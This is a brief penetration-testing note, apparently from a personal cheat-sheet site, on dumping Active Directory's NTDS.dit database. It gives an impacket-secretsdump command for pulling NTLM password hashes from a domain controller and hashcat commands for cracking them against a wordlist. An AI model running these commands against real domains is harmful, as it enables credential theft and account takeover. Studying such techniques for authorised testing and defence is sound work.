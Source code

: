 # Dumping the NTDS.dit

**NTDS.dit** is a database used to store AD data. This data includes:

* User information
* Group Information
* Security descriptors
* Password hashes



{% code title="Secretsdump" %}
```bash
impacket-secretsdump DOMAIN.com/$ADMIN_USER:'$PASS'@$DC_IP -just-dc-ntlm
```
{% endcode %}



Once we did the dump, we have to copy only NT hash to a file (`ntds.txt`). This file we will use to crack the hash with `hashcat`.

<pre class="language-bash"><code class="lang-bash"><strong>hashcat -m 1000 ntds.txt /PATH/TO/rockyou.txt
</strong></code></pre>

Once tha scanning is done, we can view the results with the command bellow:

```bash
hashcat -m 1000 ntds.txt /PATH/TO/rockyou.txt --show
```
